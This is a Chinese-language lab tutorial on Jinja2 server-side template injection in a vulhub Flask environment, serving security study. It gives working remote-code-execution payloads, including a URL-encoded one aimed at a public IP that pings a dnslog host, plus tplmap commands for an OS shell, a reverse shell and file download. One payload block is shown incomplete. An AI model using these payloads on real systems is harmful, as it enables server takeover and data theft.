# 1. SSTI模板注入漏洞

## 1.1. 漏洞介绍

​		SSTI模板注入是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可恶意语句，从而导致敏感信息泄露、代码执行、GetShell等问题。SSTI 模板注入漏洞可以用来找出 Web 应用程序的内容结构。


### 1.1.1. 挖掘漏洞


## 1.2. 环境搭建

​		我这里是直接用docker装vulhub，Vulhub是一个基于docker和docker-compose的漏洞环境集合，进入对应目录并执行一条语句即可启动一个全新的漏洞环境，让漏洞复现变得更加简单，让安全研究者更加专注于漏洞原理本身。Vulhub的官方地址为www.vulhub.org。

​		安装好docker之后克隆漏洞环境，如下：

​		git clone https://github.com/vulhub/vulhub.git



cd到flask/ssti/目录下启动环境，如下：

docker-compose build

docker-compose up -d



​		端口默认是8000，搭好结果如下：



​		src目录下的app.py内容如下：

```python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello " + name)
    return t.render()

if __name__ == "__main__":
    app.run()
```

​		代码意思是在网站根目录下接受参数name，默认值为guest，会在获取到的参数值前面加上Hello然后输出

## 1.4. 漏洞验证

​		模板注入漏洞不只存在于python，php和java也会出现该漏洞，而在python也不止一个这种模板，上面代码显示引入了flask模块和jinja2模块，而jinja2就是一个基于python的存在SSTI漏洞的模板。

​		模板识别：






在jinja2中获取参数是通过{{}}来获取，比如我们想严重漏洞存不存在就可以提交{{2\*2}}，如果返回4就说明存在该漏洞，如下：



该漏洞还会导致xss，如下：




## 1.5. 漏洞原理 ##

python可以调用系统命令；

如：

```python
import os

os.popen("calc")
```

jinja2 的模板中调用Python代码，需要在模板环境中注册函数才能在模板中进行调用，例如想要在模板中直接调用内置模块 os，即需要在模板环境中对其注册，如：

```python
import os
import sys

from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) >1 else '<empty>'))
template.globals['os'] = os

print(template.render())
```



如果未注册会报错，类似编程中未声明。这种情况下可以通过 Jinja2 的**模板语法**去**遍历变量**。jinja2中模板可以访问 Python 中的内置变量并且可以调用对应变量类型下的方法。

```javascript
__class__返回调用的参数类型
__base__返回基类列表
__mro__允许我们在当前Python环境下追溯继承树
__subclasses__()返回object子类
__globals__ 以字典类型返回当前位置的全部全局变量（func_globals 等价）
```



通过python方法构造的语句实现注册内置模块，如下：



上面构造的语句可在python直接引用，但在jinja2模板中需要转换成jinja2能识别的格式。

## 1.6. 漏洞利用

​		在jinja2中可以利用python的内置函数来进行读写文件或者执行命令，下面是官网给出的命令执行payload：

~~~jinja2


  
  
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  
  


~~~

> url编码后：

%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D

​		执行结果如下：



​		popen函数的参数就是待执行的命令，如下：



http://49.233.51.164:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).system(%22ping%20yh2wa2.dnslog.cn%22)%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D

​		os.system()




## 1.7. 漏洞修复

​		修改参数处理方式，如下：



## 1.8. 参考资料

https://blog.csdn.net/u011377996/article/details/86776181

https://www.cnblogs.com/20175211lyz/p/11425368.html

https://www.jianshu.com/p/1f80e6561049

https://shimo.im/docs/cpVxcWctk3KtxGGQ


python2.exe .\tplmap.py -u http://192.168.1.8:8000/?name=9 --os-shell



python2.exe .\tplmap.py -u http://192.168.1.8:8000/?name=9 --os-cmd whoami



python2.exe .\tplmap.py -u http://192.168.1.8:8000/?name=9 --reverse-shell 192.168.1.7 2333





python2.exe .\tplmap.py -u http://192.168.1.8:8000/?name=9 --download ./app.py ./test.py




flask1.0以后的版本开启调试模式的方法

"flask run" 命令前加上 "set FLASK_DEBUG=1" （NOTE：Linux 下用 export）来开启

powershell 用 $env:FLASK_ENV = "development"




